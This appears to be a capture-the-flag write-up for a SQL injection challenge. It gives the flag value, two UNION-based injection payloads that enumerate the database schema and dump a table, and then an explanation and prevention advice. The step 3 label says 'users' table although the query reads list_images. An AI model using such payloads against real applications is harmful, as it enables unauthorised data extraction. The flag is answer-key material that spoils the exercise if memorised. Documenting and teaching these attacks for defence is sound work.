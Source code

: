 # Sql Injection

## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery and Exploitation

1. Navigate to the **MEMBERS** page.
2. To list all tables in the database, insert the following SQL query:
   ```sql
   true UNION SELECT table_name, column_name FROM information_schema.columns
   ```
3. To list all columns in the `users` table, insert the following SQL query:
   ```sql
   true UNION SELECT id, CONCAT(url, comment) FROM list_images
   ```
   > **Note:** The `CONCAT` function is used because there is a restriction that only two columns can be retrieved.
4. Follow the instructions for the image with url 5 to obtain the flag.

## Why it works

SQL injection works by manipulating the SQL query that is executed by the application. By inserting specially crafted input, an attacker can alter the query's logic, allowing them to access or manipulate data they shouldn't be able to. In this case, the `UNION` operator is used to combine the results of the original query with the results of a malicious query, effectively bypassing the application's intended behavior and exposing sensitive information.

## Prevention

1. **Use Prepared Statements**: Use prepared statements or parameterized queries to separate SQL code from user input. This prevents attackers from injecting SQL code into the query.

2. **Input Validation**: Validate and sanitize all user inputs to prevent SQL injection attacks. Ensure that user-supplied data is properly encoded and does not contain malicious content.

3. **Least Privilege Principle**: Ensure that database users have the minimum necessary permissions to perform their tasks. Avoid using highly privileged accounts for routine operations.

4. **Database Firewall**: Implement a database firewall to monitor and block SQL injection attempts. These tools can help detect and prevent attacks in real-time.

5. **Regular Security Audits**: Regularly audit and test your application for security vulnerabilities, including SQL injection, to identify and fix potential issues before they can be exploited.
